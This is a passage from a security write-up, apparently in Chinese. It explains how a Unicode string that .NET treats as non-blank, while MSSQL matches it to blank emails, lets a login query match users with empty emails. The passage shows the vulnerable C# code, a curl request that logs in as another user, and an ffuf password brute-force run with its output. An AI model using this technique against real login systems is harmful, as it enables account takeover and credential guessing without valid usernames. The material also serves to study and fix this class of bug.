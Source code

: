 ```
if(!String.IsNullOrWhiteSpace(email)){
                    // login with email
                    var r = await db.Users.Where(u => u.email == email).Where(u => u.password == password).FirstOrDefaultAsync();
                    if(r != null){
                        return Results.Ok($"Logged in user ID {r.Id}");
                    }
                }
```  
  
  
Dotnet 知道我们的 goblin 实际上不是一个空字符串，但 MSSQL 却不这么认为。  
  
这意味着，如果我们将妖精表情符号指定为电子邮件地址，MSSQL 将检查每一行空白电子邮件，并依次尝试每行的密码。我们可以一次性暴力破解每个拥有空白电子邮件的用户的密码，如果需要，也可以反之破解用户名。这就是我们的漏洞。指定妖精表情符号或任何其他会触发此条件的 Unicode 字符串和密码，并以设置了该密码的任何用户身份登录：  
  
```
:~$ curl -i "http://localhost:5055/login" -X POST -d "email=💩&password=foo"
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Tue, 26 Nov 2024 02:56:43 GMT
Server: Kestrel
Transfer-Encoding: chunked

"Logged in user ID 9"
```  
  
  
以上显示用户 ID 9 的密码为foo。我们甚至不需要知道该用户的用户名。这大大提高了暴力密码猜测攻击的有效性，因为我们不再需要有效的用户名。只要任何用户设置了该密码，它就会让我们登录。  
  
下面展示了如何使用该ffuf工具 ( https://github.com/denandz/ffuf ) 进行暴力攻击，并找到有效的密码。我在这里使用我的 fork-of-ffuf，因为它包含审计日志，让我可以解析模糊测试运行信息并执行各种统计分析技巧。  
  
```
$ ./ffuf -w ~/xato-net-10-million-passwords-1000.txt -u "http://localhost:5055/login" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=👺&password=FUZZ" -mc all -fr "Login Failed" -audit-log=login-brute-1.json

        /'___\ /'___\ /'___\ 
       /\ \__/ /\ \__/ __ __ /\ \__/ 
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\ 
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/ 
         \ \_\ \ \_\ \ \____/ \ \_\ 
          \/_/ \/_/ \/___/ \/_/ 

       v2.2.0-doi
________________________________________________

 :: Method : POST
 :: URL : http://localhost:5055/login
 :: Wordlist : FUZZ: /home/doi/xato-net-10-million-passwords-1000.txt
 :: Header : Content-Type: [application/x-www-form-urlencoded]
 :: Data : username=👺&password=FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 40
 :: Matcher : Response status: all
 :: Filter : Regexp: Login Failed
________________________________________________

123123 [Status: 200, Size: 24, Words: 5, Lines: 1, Duration: 44ms]
monkey [Status: 200, Size: 24, Words: 5, Lines: 1, Duration: 44ms]
696969 [Status: 200, Size: 24, Words: 5, Lines: 1, Duration: 44ms]
jordan [Status: 200, Size: 24, Words: 5, Lines: 1, Duration: 48ms]
zxcvbnm [Status: 200, Size: 24, Words: 5, Lines: 1, Duration: 49ms]
dragon [Status: 200, Size: 24, Words: 5, Lines: 1, Duration: 46ms]
```